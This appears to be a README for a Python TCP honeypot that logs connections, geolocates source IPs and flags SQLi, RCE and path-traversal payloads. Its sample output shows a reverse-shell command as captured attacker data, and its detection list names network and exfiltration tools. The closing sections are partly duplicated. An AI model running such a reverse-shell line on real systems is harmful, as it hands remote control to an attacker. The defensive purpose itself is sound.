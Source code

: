 HoneyTrap – Advanced Python Honeypot with Geolocation and Suspicious Payload Detection

HoneyTrap is an advanced Python-based TCP socket honeypot that listens for incoming connections, logs attacker data, detects suspicious payloads (like SQLi, RCE), and gathers geolocation information about the source IP. Logs are stored in both JSON and SQLite formats for long-term storage and analysis. It also supports basic fake responses to simulate a vulnerable environment and can be extended with dashboards or alerting systems.


---

🔧 Features

📡 TCP Socket Listener on a configurable port

🌍 Geolocation Lookup using ip-api.com

🚩 Suspicious Payload Detection (SQLi, RCE, LFI, etc.)

🧪 Fake System Command Prompt Response to bait attackers

📝 Logging in JSON & SQLite

🧰 Blacklist / Whitelist IP Filtering

🌈 Color-coded Real-time Logs via termcolor

🧱 Easily Extendable with Flask dashboards, alerts, etc.



---

🗂️ Project Structure

honeypot/
├── honeypot.py           # Honeypot main script
├── honeypot_logs.db      # SQLite log database
├── honeypot_logs.json    # JSON log file


---

📦 Installation

Install dependencies:

pip install requests termcolor


---

▶️ Usage

Run the honeypot:

python honeypot.py

It will:

Listen on all interfaces at port 9999

Log every incoming connection with IP, data, and location

Flag suspicious requests (like SQL injections or remote shell commands)

Save all data to both honeypot_logs.json and honeypot_logs.db

Respond to attackers with a fake Linux shell prompt message



---

🔍 Example Output

[STARTED] Honeypot listening on 0.0.0.0:9999

[NEW] 185.23.144.55:34231
 ↳ Location: Frankfurt, Germany | Org: Evil ISP
 ↳ Data: bash -i >& /dev/tcp/1.2.3.4/4444 0>&1
 ⚠ Suspicious activity detected!


---

📂 Log Format

JSON (honeypot_logs.json)

{
  "timestamp": "2025-06-23T18:40:10",
  "ip": "192.168.1.100",
  "port": 54321,
  "data": "curl example.com",
  "geo": {
    "country": "India",
    "city": "Mumbai",
    "org": "Jio"
  },
  "suspicious": true
}

SQLite (honeypot_logs.db)

TABLE logs (
    id INTEGER PRIMARY KEY,
    timestamp TEXT,
    ip TEXT,
    port INTEGER,
    data TEXT,
    country TEXT,
    city TEXT,
    org TEXT,
    suspicious INTEGER
)


---

🧠 Detection Patterns

This honeypot detects:

SQL Injection: select, union, insert, etc.

Remote Code Execution: bash, sh, cmd, powershell

Local File Inclusion: ../, %2e%2e/

Recon/Exfil Tools: wget, curl, nc, telnet, etc.
HoneyTrap – Advanced Python Honeypot with Geolocation and Suspicious Payload Detection

    city TEXT,
    org TEXT,
    suspicious INTEGER
)


---

🧠 Detection Patterns

This honeypot detects:

SQL Injection: select, union, insert, etc.

Remote Code Execution: bash, sh, cmd, powershell

Local File Inclusion: ../, %2e%2e/

Recon/Exfil Tools: wget, curl, nc, telnet, etc.
